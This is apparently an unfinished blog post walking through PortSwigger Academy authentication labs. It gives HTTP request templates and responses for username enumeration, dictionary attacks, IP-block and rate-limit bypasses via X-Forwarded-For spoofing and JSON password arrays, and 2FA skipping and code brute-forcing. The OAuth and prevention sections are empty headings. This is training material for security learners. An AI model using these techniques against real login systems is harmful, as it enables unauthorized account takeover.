










This is the second post within the web application hacking series, which is a series that covers a vast amount of web application attack vectors by going through PortSwiggers web hacking academy. In this post in particular, we will be taking a look at authentication vulnerabilities. More in particular, we will conduct research into vulnerabilities regarding password-based logins, multi-factor authentication and third party authentication mechanisms and how to prevent these vulnerabilities. While researching and explaining the topic, we will go through several easy and more advanced examples that are available for free at [PortSwigger Academy](https://portswigger.net/web-security/authentication).  

## Authentication and Authorization


## Vulnerabilities in Password-Based Login

### Username Enumeration Through Responses and Timing
Let's move on to our first example. In this example, we will be facing a challenge in which we have to enumerate the username through the analysis of the response and then perform a dictionary attack to find the password. We send the POST to the login form to the intruder, and set the username parameter as payload. We use the sniper attack type, as we are focusing on one parameter only. 

```HTTP
POST /login HTTP/1.1
Host: acfe1fa11ec8aab3c0eebfc300cb00fd.web-security-academy.net
Cookie: session=1K5qn1N9PixFdK2kIEg2x094YXP14YKD
[...]

username=§admin§&password=admin
```

When looking through the responses, we can see that all off the authentication attempts respond with Status 200 OK, but one request has a different length. The reason for this is that the web page displays "incorrect password" instead of "invalid username", thus indicating that the username we tried is correct. In this case, the username that exists within the web application is "adserver". 

<p>
	
</p>

Now that we figured out the username, we will be attempting to log on to the account by performing a dictionary attack. We set the username parameter to "adserver", and let the intruder try different passwords like so.

```HTTP
POST /login HTTP/1.1
Host: acfe1fa11ec8aab3c0eebfc300cb00fd.web-security-academy.net
Cookie: session=1K5qn1N9PixFdK2kIEg2x094YXP14YKD
[...]

username=adserver&password=§admin§
```

We can see that one request responds very differently than the others.

<p>
	
</p>

The response when attempting to login with adserver:1111 looks as follows.

```HTTP
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=xWKzGbVmDD0KHi7ThSfOZYpbj9lnkrPd; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```

Indicating that we managed to log into the web application. 

The example above was relatively simple to spot. The next challenge will be slightly more difficult. We once again face a username enumeration challenge which should be solvable through application responses. Let's use a similar approach as in the last challenge, thus we use the intruder to enumerate usernames. 

```HTTP
POST /login HTTP/1.1
Host: ac261f2b1e102c64c00e084d00ae0017.web-security-academy.net
Cookie: session=ZNyDDOUgkpg4yenK6Gfu16Mtz1DHt9MO
[...]

username=§admin§&password=admin
```

All responses that we receive return an HTTP status 200 OK, and different lengths. These lengths have nothing to do with the length of the username, and seem to be random. When we log in with a wrong username, the application returns "Invalid username or password." I copied this string, and looked at the respones of all requests that we sent in order to see if the same message returns in every response. When doing this, I find one request that shows 0 matches. The response returns "Invalid username or password". Do you spot the difference? 

<p>
	
</p>

Exactly, the response misses the dot in the end! Based on this finding, I will assume that "arkansas" is going to be a valid username. Let's try to run another dictionary attack to log onto the application.

```HTTP
POST /login HTTP/1.1
Host: ac261f2b1e102c64c00e084d00ae0017.web-security-academy.net
Cookie: session=ZNyDDOUgkpg4yenK6Gfu16Mtz1DHt9MO
[...]

username=arkansas&password=§admin§
```

After running through the whole list, we find an HTTP 302 using the username "moscow". When trying to login with the "arkansas:moscow" credentials manually, we can see that it works.

```HTTP
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=0Ol2T2H4v01N7qBS5x1fCUPJLY2rUhcR; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```

#### Username Enumeration Through Response Timing
This challenge was already slightly more difficult. Now we are going to add response timing to the challenge. For this challenge, we are granted valid user credentials. Let's log into the application using the "wiener:peter" credentials, and look at the response time. 

```HTTP
POST /login HTTP/1.1
Host: ac691f5f1f53b64bc02f248900ef00d0.web-security-academy.net
Cookie: session=yIf7wbm9d0mWQH8RAuduIv1U7X9YJfq5
[...]

username=wiener&password=peter
```

When looking at the response, we can see that the request took 147 milliseconds, and has a size of 170 bytes. We can establish some sort of base line by trying to login with correct credentials and see the differences in response timings. We can state that a correct login will take anywhere between 130 and 240 milliseconds.

Let's use the intruder to enumerate usernames, while setting a wrong but very long password. The reason for setting a password this long, is that the server might only check the password if the username is correct, and if we specify a longer password, this check might deviate slightly from a completely wrong username. 

```HTTP
POST /login HTTP/1.1
Host: ac691f5f1f53b64bc02f248900ef00d0.web-security-academy.net
Cookie: session=yIf7wbm9d0mWQH8RAuduIv1U7X9YJfq5
[...]

username=§admin§&password=peterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeter
```

To analyze the response timings in the intruder, we need to run the intruder and then navigate to "column" and check the boxes for "Response received" and "Response completed". 

Unfortunately, we received an IP-ban due to too many failed login attempts. 

<p>
	
</p>

Let's see if we can bypass this by specifying random IP-addresses. To do this, we make use of the "X-Forwarded-For" header. This header can spoof our IP-address, and thus allow for login authentications from different IP's, and therefore we can possibly bypass the IP-block. To do this, we use the intruder, and set the attack type to "pitchfork", as we will be using multiple payloads. Additionally, we are adding the "X-Forwarded-For" header to our request like so.

```HTTP
POST /login HTTP/1.1
Host: ac691f5f1f53b64bc02f248900ef00d0.web-security-academy.net
Cookie: session=yIf7wbm9d0mWQH8RAuduIv1U7X9YJfq5
X-Forwarded-For: §ip§
[...]

username=§asdf§&password=peterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeterpeter
```

We set the first payload to be of payload type "numbers", and specify the following settings.

<p>
	
</p>

We then set our second payload to our list of usernames. We are once again using a very long password, with the same reasoning as before. Let's run the attack and set the "Response received" and "Respones completed" columns again. We can see that there is one request that takes very long to respond.

<p>
	
</p>

Indicating that our username is probably "azureuser". We can now run a dictionary attack to find the password. We once again use a pitchfork attack to bypass the IP block, and set the second payload to a list of passwords.

```HTTP
POST /login HTTP/1.1
Host: ac691f5f1f53b64bc02f248900ef00d0.web-security-academy.net
Cookie: session=yDYbOosC4DC1MC1bi5aHQvKKwJ0vdcxJ
X-Forwarded-For: §ip§
[...]

username=azureuser&password=§asdf§
```

And we find that the password "amanda" responds with a Status 302 Found.

```HTTP
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=To6WfJYDvEVUTpcWCX2PhCPuw3xnTlnS; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```

Indicating that our credentials are "azureuser:amanda". 

### Brute Force Protection Bypasses
Sometimes the web application has built-in protection against brute force attacks, as we already saw in the previous example where we got our IP-address blocked. Three methods that are often used as brute force protection are to block IP-addresses which are causing many failed login attempts, account locking after an X amount of failed login attempts and rate limiting. 

When dealing with IP-blocks, we already saw the "X-Forwarded-For" header. This will only work when this header is allowed to be sent to the web application. In the following example it is not. Sometimes IP-blocks are reset after one succesful attempt. In the following challenge we will be looking at a simple bypass that allows for password bruteforcing by adding several correct credentials to the username list in order to keep resetting the IP-block counter.

#### IP-Blocking Bypass

For this challenge we receive the user credentials for the "wiener:peter" account, and a victim username called "carlos". Let's try to run a dictionary attack through the intruder and get access to the "carlos" account. For this we use the following intruder payload with attack type "sniper".

```HTTP
POST /login HTTP/1.1
Host: ac131fee1fa425a3c0de2bbf00e20087.web-security-academy.net
Cookie: session=ploAPkBXruNYTUrOaZDaLaI2Kd0Bephq
[...]

username=username&password=§password§
```

Let's try to send 10 login attempts and see whether we get blocked or not. I add 10 passwords to my simple list payload type and run the attack. The first 9 requests do not trigger the block, but the 10th request does. It responds to use with the following message.

```text
"You have made too many incorrect login attempts. Please try again in 1 minute(s)."
```

Let's alter our payload to evade the block. For this, we use the "pitchfork" attack, and create an alternating list that alternates between the carlos and wiener username like so.

```text
carlos
wiener
carlos
wiener
carlos
[...]
```

We want to make sure that both the carlos and the wiener user are specified at least 100 times in this list, as we are working with a 100 word password list. We set this list as our first payload. 

For our password list, we want to add our correct password at every second line, as this will be the line that will be used by our wiener user. To do so, I run the following bash one liner to add "peter" to every second line.

```bash
awk '{ print $0; print "peter"}' passwords > passwords.out
```

We add the password.out list as the second payload and run the attack.

```HTTP
POST /login HTTP/1.1
Host: ac131fee1fa425a3c0de2bbf00e20087.web-security-academy.net
Cookie: session=ploAPkBXruNYTUrOaZDaLaI2Kd0Bephq
[...]

username=§username§&password=§password§
```

We can now see an alternating status code 200 with a status code 302 for every "wiener:peter" authentication. Our job is to look through the results, and find a status code 302 for the carlos username. When we filter the list in descending order for the carlos user, we can see one request that triggers a status code 302.

<p>
	
</p>

The credentials for "carlos:qwerty" allow us to log into the application.

```HTTP
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=F89yNjXXYYjw6mMXaofFfUtkk2XaRVZ1; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```

#### Account Locking Bypass
In the following challenge we will be taking taking a look at a logic flaw implemented to an account locking protection mechanism. Our objective is to enumerate a valid username and use a dictionary attack to find this user's password. 

First I try to see if there are any other protections in place, by sending a number of wrong authentication requests and look at the response of the web application.

```HTTP
POST /login HTTP/1.1
Host: ac021fd91f07135ec0f2181200490054.web-security-academy.net
Cookie: session=ifqP1CzTFtEXlF1UGKtBaNw5Xikqxy6n
[...]

username=aaa&password=aaa
```

The web application constantly responds with a status code HTTP 200 OK, with the "Invalid username or password." error message. It looks like we will not have to deal with any protections. Let's use the intruder to enumerate usernames. To do so, we use the "cluster bomb" attack type, as it cycles through all passwords for each username that we specify. Thus it will try to log in to each username with 100 passwords.

```HTTP
POST /login HTTP/1.1
Host: ac021fd91f07135ec0f2181200490054.web-security-academy.net
Cookie: session=ifqP1CzTFtEXlF1UGKtBaNw5Xikqxy6n
[...]

username=§aaa§&password=§aaa§
```

For payload 1 we specify the list of usernames, and for payload 2 we specify the list of passwords. When we filter on length, we can see that one username has a larger length than all of the others. 

<p>
	
</p>

When logging into this account, we receive the "You have made too many incorrect login attempts. Please try again in 1 minute(s)." error message, instead of the regular "Invalid username or password." message. Let's use the intruder with the sniper payload to log in to this user. 

```HTTP
POST /login HTTP/1.1
Host: ac021fd91f07135ec0f2181200490054.web-security-academy.net
Cookie: session=ifqP1CzTFtEXlF1UGKtBaNw5Xikqxy6n
[...]

username=arkansas&password=§aaa§
```

If we launch the attack with a default password list we will lock our account after every third wrong login attempt. Let's run it, and look at the responses. 

<p>
	
</p>

We can see that one response is dissimilar from the others. When I try to authenticate with the "arkansas:aaaaaa" credentials, I manage to login. 

#### User Rate Limiting Bypass
Finally, we will be dealing with user rate limiting. Rate limiting is introduced to block accounts that are attempting too many login requests within a short period of time. Typically, the IP-address will be blocked and can be unblocked through either waiting for an X period of time, by being unblocked by an administrator or by solving a CAPTCHA. 

The following challenge will focus on user rate limiting bypassing. Our victim's username is "carlos". Our goal is to brute force his password, by sending multiple credentials per request in order to bypass rate limiting protections. Let's take a look at the login request.

```HTTP
POST /login HTTP/1.1
Host: acc01fe31f94cf48c08b258a00670011.web-security-academy.net
Cookie: session=hdWL9exmF2aiuY0NxJp67AGkFiYYWTx5
[...]

{"username":"carlos","password":"asdf","":""}
```

We can see that this time, we are sending the user credentials via a JSON POST request. The format used in this case will be username:password. We can try to send more than one username and password within our authentication request. I paste all passwords in sublime text and use the ctrl + shift + l hotkey to edit all 100 lines simultaneously. I create a JSON list containing all passwords, and send the request.

```HTTP
POST /login HTTP/1.1
Host: acc01fe31f94cf48c08b258a00670011.web-security-academy.net
Cookie: session=hdWL9exmF2aiuY0NxJp67AGkFiYYWTx5
[...]

{"username":"carlos",
"password":["123456",
"password",
"12345678",
"qwerty",
"123456789",
etc...],
"":""}
```

And we receive the following response.

```HTTP
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=JBy8khHbN7ZnKqtnP3FTXC6jVCesNaTP; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```

When we right click on the request and click "show response in browser", we can copy the URL and navigate to the account page in which we have a valid authenticated session. 

## Vulnerabilities in Multi-Factor Authentication

### Bypassing Two-Factor Authentication
In cases where 2FA is flawed, it might be possible to bypass it. In this example, the web application authenticates the user's credentials in a first prompt, after which it asks for a 2FA code in a second prompt. The authentication part was however already accomplished in the first prompt, allowing us to bypass the second prompt entirely. Let's take a look. When we log in using valid credentials, we see the following requests and responses. 

```HTTP
POST /login HTTP/1.1
Host: acd81f871e5e116fc0fea9fb007200f4.web-security-academy.net
Cookie: session=UEQGa8zO4q0xAJG3UBYcL5dFnS8YfOEH

[...]
username=wiener&password=peter
```

We get redirected to the /login2 page.

```HTTP
POST /login2 HTTP/1.1
Host: acd81f871e5e116fc0fea9fb007200f4.web-security-academy.net
Cookie: session=nU4r4mj1wkJ7RIUEq9mZ5y6hKzwjmQDV
[...]

mfa-code=0081
```

After which we are logged in to the application, by redirecting us to the /my-account page.

```HTTP
GET /my-account HTTP/1.1
Host: acd81f871e5e116fc0fea9fb007200f4.web-security-academy.net
Cookie: session=6ozPvSo2zSeVn7YzjwwyIj7u8VzEWPli
[...]
```

This is how the regular 2FA workflow is implemented. Now we can try to bypass the 2FA for an account that we do not have the 2FA code for. We send the first POST request, as we did before.

```HTTP
POST /login HTTP/1.1
Host: acd81f871e5e116fc0fea9fb007200f4.web-security-academy.net
Cookie: session=MklPkKunY1L0ys7O4OurGmGBs3htOZQV
[...]

username=carlos&password=montoya
```

This redirects us to the /login2 page, as it did before. But instead of supplying our data here, we just attempt to access the /my-account page.

```HTTP
GET /my-account HTTP/1.1
Host: acd81f871e5e116fc0fea9fb007200f4.web-security-academy.net
Cookie: session=HNZLq3NEteMbRx35tBz3T9i9vSrg99U8
[...]
```

At which the server responds with HTTP 200 OK, allowing us to bypass the 2FA protection. 

### Flawed Two-Factor Authentication
In some cases, the web application doesn't properly check whether the same user completed both the user authentication and the 2FA authentication. In these cases, the application might set the cookie after the first authentication step for this specific user. This cookie can then be altered to try to access other user accounts. Let's take a look at an example. Let's login and look at the HTTP request/response.

```HTTP
POST /login HTTP/1.1
Host: ac4b1ff91f4b7afcc0c4094800e8009c.web-security-academy.net
Cookie: session=WT01d1UAsGLr77ba55jryIhD0gPoG5eh
[...]

username=wiener&password=peter
```

After which the server sets the cookie to verify that the user is "wiener".

```HTTP
HTTP/1.1 302 Found
Location: /login2
Set-Cookie: verify=wiener; HttpOnly
Set-Cookie: session=ZnCGG4ZTgXGBTG44cQnshOVZXayTrjgA; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```

Now we will send a GET request to the server to ensure an authentication code is created for the carlos user.

```HTTP
GET /login2 HTTP/1.1
Host: ac4b1ff91f4b7afcc0c4094800e8009c.web-security-academy.net
Cookie: verify=carlos; session=ZnCGG4ZTgXGBTG44cQnshOVZXayTrjgA
[...]
```

After which we use the intruder to brute force this authentication code. To do so, we use the following POST request with the attack type "sniper".

```HTTP
POST /login2 HTTP/1.1
Host: ac4b1ff91f4b7afcc0c4094800e8009c.web-security-academy.net
Cookie: verify=carlos; session=ZnCGG4ZTgXGBTG44cQnshOVZXayTrjgA
[...]

mfa-code=§code§
```

We set the payload option to numbers, with type "sequential", from "0", to "9999", step "1", min and max integer digits "4" and min and max fraction digits "0". We then run the attack.

<p>
	
</p>

When we right click the request and choose for "show response in browser", we manage to authenticate using the "1418" authentication code. 

### Brute-Forcing Two-Factor Authentication Verification Codes


## Vulnerabilities Within the OAuth 2.0 Framework

## How to Prevent Authentication Vulnerabilities 

## Conclusion